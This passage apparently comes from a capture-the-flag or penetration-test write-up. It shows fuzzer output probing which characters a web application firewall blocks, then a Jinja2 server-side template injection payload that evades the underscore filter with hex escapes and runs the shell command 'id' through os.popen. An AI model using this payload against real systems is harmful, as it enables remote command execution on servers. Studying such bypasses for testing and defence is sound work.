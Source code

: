 ```bash
000000011:   200        66 L     128 W      1565 Ch     ")"                                                                                                      
000000012:   200        66 L     128 W      1565 Ch     "-"                                                                                                      
000000013:   200        66 L     139 W      1607 Ch     "_"                                                                                                      
000000014:   200        66 L     128 W      1565 Ch     "+"                                                                                                      
000000015:   200        66 L     128 W      1565 Ch     "="                                                                                                      
000000016:   200        66 L     128 W      1565 Ch     "{"                                                                                                      
000000017:   200        66 L     128 W      1565 Ch     "}"                                                                                                      
000000018:   200        66 L     128 W      1565 Ch     "]"                                                                                                      
000000019:   200        66 L     128 W      1565 Ch     "["                                                                                                      
000000020:   200        66 L     128 W      1565 Ch     "|"                                                                                                      
000000021:   200        66 L     128 W      1565 Ch     "\"                                                                                                      
000000022:   200        66 L     128 W      1565 Ch     "`"                                                                                                      
000000023:   200        66 L     128 W      1565 Ch     ","                                                                                                      
000000024:   200        66 L     139 W      1607 Ch     "."                                                                                                      
000000025:   200        66 L     128 W      1565 Ch     "/"                                                                                                      
000000026:   200        66 L     128 W      1565 Ch     "?"                                                                                                      
000000027:   200        66 L     128 W      1565 Ch     ";"                                                                                                      
000000028:   200        66 L     128 W      1565 Ch     ":"                                                                                                      
000000029:   200        66 L     139 W      1607 Ch     "'"                                                                                                      
000000030:   200        66 L     128 W      1565 Ch     """                                                                                                      
000000031:   200        66 L     128 W      1565 Ch     "<"                                                                                                      
000000032:   200        66 L     128 W      1565 Ch     ">"   
```

As we can see the ``1607 ch``  shows other commonly used characters like  ``_ , ' ' `` which are blocked, which results in more explicit error messages:

![[waf.png]]

### Payload - Research,Error ,Trial and Defination
After doing some research i came up with a payload:
#### code-unrefined payload
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
